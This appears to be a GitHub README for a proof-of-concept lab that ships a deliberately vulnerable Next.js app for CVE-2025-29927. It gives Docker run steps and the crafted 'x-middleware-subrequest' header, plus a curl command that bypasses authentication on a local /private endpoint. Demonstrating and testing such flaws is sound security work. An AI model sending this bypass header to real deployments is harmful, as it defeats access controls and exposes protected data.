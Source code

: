 # Next.js Middleware Exploit: CVE-2025-29927 Authorization Bypass POC
This folder contains a sample web application vulnerable to [CVE-2025-29927](https://zeropath.com/blog/nextjs-middleware-cve-2025-29927-auth-bypass), an authorization bypass vulnerability in NextJS when an attacker adds a specially-crafted HTTP header.

## Running the application

Run it:


```
docker build . -t vulnerable-app
docker run -p 3000:3000 --name vulnerable-app --rm vulnerable-app
```

## Exploitation steps

The application has a private endpoint `/private` that is accessible only by authenticated users.  


You can bypass authentication by adding the following HTTP header to the request:

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

Example

```
curl --request GET \
  --url http://localhost:3000/private \
  --header 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware'
```